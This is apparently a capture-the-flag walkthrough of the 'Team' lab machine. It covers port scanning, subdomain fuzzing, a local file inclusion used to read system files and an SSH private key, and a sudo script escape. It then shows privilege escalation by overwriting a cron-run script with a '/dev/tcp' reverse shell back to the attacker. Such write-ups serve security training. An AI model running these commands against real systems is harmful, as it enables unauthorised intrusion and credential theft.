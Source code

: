 # Team

## Nmap

```
sudo nmap 10.10.93.15 -p- -sS -sV  

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
Before starting add team.thm into /etc/hosts.
{% endhint %}

For FTP on port 21 anonymous login is not allowed.

![](<../../../.gitbook/assets/image (986).png>)

Moving onto port 80 the root page reveals the following:

![http://team.thm/](<../../../.gitbook/assets/image (987).png>)

After further enumeration we are unable to identify anything too interesting. /Robots.txt contains the entry 'dale' which I tried against Hydra for SSH and FTP with no luck.

![](<../../../.gitbook/assets/image (988).png>)

Fuzzing for subdomains with wfuzz revelas the 'dev' sub domain.

```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" -t 42 --hl 373  
```

![](<../../../.gitbook/assets/image (989).png>)

This was added to the hosts files in /etc/hosts:

```
10.10.93.15 team.thm
10.10.93.15 dev.team.thm
```

Browsing to the subdomain reveals the following:

![](<../../../.gitbook/assets/image (990).png>)

Progressing with the placeholder link takes us to the following URL:[http://dev.team.thm/script.php?page=teamshare.php](http://dev.team.thm/script.php?page=teamshare.php).

Testing for LFI proves successfulon /etc/passwd. I used wfuzz to further enumerate LFI.

```
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI.txt --hw 0 http://dev.team.thm/script.php?page=/../../../../../FUZZ 
```

![](<../../../.gitbook/assets/image (991).png>)

Checking the following below reveals a SSH key for the user Dale.

{% embed url="http://dev.team.thm/script.php?page=/../../../../../etc/ssh/sshd_config" %}

![](<../../../.gitbook/assets/image (992).png>)

Copy the key to the attacking machine and use `chmod` to set the correct permissions.

```
chmod 600 id_rsa
```

{% hint style="info" %}
Ensure a space is present underneath the line '-----END OPENSSH PRIVATE KEY-----' otherwise the key will be marked as invalid when connecting to SSH.
{% endhint %}

Checking `sudo -l` we are able to run `/home/gyles/admin_checks` as the user gyles without a password.

![](<../../../.gitbook/assets/image (1461).png>)

Reading the file with `cat` shows that the script will prompt us for input for the name of ther person backing up the data and the date.

![](<../../../.gitbook/assets/image (1462).png>)

When running the script I was able to escape it by entering '`/bin/bash`'. As per below we now have shell as gyles.

![](<../../../.gitbook/assets/image (1463).png>)

Upgrade our shell to something nice to use:

```
/usr/bin/script -qc /bin/bash /dev/null
```

From here with some manual enumeraiton we find a file called script.sh in the /opt/ directory.

![](<../../../.gitbook/assets/image (1464).png>)

As per the comments in the script this has been set to run by cron every minute. I was able to delete the file which means we can replace it with a reverse shell.

![](<../../../.gitbook/assets/image (1465).png>)

The following commands was then run to echo in a reverse shell.

```
gyles@TEAM: echo '#!/bin/bash' > script.sh
gyles@TEAM: echo 'sh -i >& /dev/tcp/10.14.3.108/80 0>&1' >> script.sh
gyles@TEAM: chmod +x script.sh
```

I then started a `netcat` listener on my attacking machine and soon enough gained a shell as root.

![](<../../../.gitbook/assets/image (1466).png>)
